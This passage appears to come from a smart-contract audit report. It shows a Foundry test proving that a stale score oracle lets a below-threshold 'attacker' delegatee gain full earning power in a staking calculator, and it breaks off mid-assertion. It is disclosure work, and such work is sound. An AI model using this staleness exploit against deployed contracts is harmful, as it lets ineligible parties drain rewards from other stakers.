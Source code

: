 ### b. Proof-of-Concept Code and Results

**Test Code:**

```solidity
// SPDX-License-Identifier: AGPL-3.0-only
pragma solidity ^0.8.23;

import {Test} from "forge-std/Test.sol";
import {BinaryEligibilityOracleEarningPowerCalculator} from "../src/BinaryEligibilityOracleEarningPowerCalculator.sol";
import {ERC20VotesMock} from "./mocks/MockERC20Votes.sol";

contract OracleVulnerabilityTest is Test {
    BinaryEligibilityOracleEarningPowerCalculator calculator;
    address owner;
    address scoreOracle;
    address pauseGuardian;
    address attacker;
    uint256 staleWindow;
    uint256 threshold;
    ERC20VotesMock mockToken;

    function setUp() public {
        owner = makeAddr("owner");
        scoreOracle = makeAddr("oracle");
        pauseGuardian = makeAddr("guardian");
        attacker = makeAddr("attacker");
        
        staleWindow = 1 days;
        threshold = 50; // Minimum score needed for eligibility

        vm.startPrank(owner);
        calculator = new BinaryEligibilityOracleEarningPowerCalculator(
            owner,
            scoreOracle,
            staleWindow,
            pauseGuardian,
            threshold,
            1 hours
        );
        mockToken = new ERC20VotesMock();
        vm.stopPrank();
    }

    function testExploit_StalenessGrantsFullPower() public {
        // Setup: Set initial score below threshold
        vm.startPrank(scoreOracle);
        calculator.updateDelegateeScore(attacker, 10); // Score well below threshold
        vm.stopPrank();

        // Initial check - should have zero earning power
        assertEq(
            calculator.getEarningPower(100, attacker, attacker),
            0,
            "Should have zero earning power when score below threshold"
        );

        // Simulate oracle becoming stale
        vm.warp(block.timestamp + staleWindow + 1);

        // Check after staleness - should now have full earning power
        uint256 stakeAmount = 100;
        assertEq(
```